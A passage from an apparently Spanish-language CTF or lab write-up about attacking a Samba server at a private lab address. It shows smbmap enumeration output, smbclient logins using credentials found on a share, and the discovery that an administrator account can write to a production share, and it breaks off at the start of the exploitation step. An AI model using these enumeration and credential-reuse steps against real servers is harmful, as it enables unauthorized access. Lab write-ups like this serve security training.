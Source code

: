 ```bash
        home                                                    NO ACCESS       Produccion
        IPC$                                                    NO ACCESS       IPC Service (EseEmeB Samba Server)
[*] Closed 1 connections
```

Utilizamos **smbclient** para acceder:
```bash
smbclient //172.17.0.2/backup24/ -U satriani7 -p 50cent
```

En Documents > Personal, hay credenciales.

Utilizamos **smbmap** para ver que hay para el usuario administrador con su credencial:
```bash
smbmap -H 172.17.0.2 -u administrador -p Adm1nP4ss2024

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445  Name: pressenter.hl             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        myshare                                                 READ ONLY       Carpeta compartida sin restricciones
        backup24                                                NO ACCESS       Privado
        home                                                    READ, WRITE     Produccion
        IPC$                                                    NO ACCESS       IPC Service (EseEmeB Samba Server)
[*] Closed 1 connections 
```

Vemos que podemos modificar producción.

# EXPLOTACION

Utilizamos **smbclient** para acceder:
```bash

smbclient //172.17.0.2/home/ -U administrador -p Adm1nP4ss2024

```
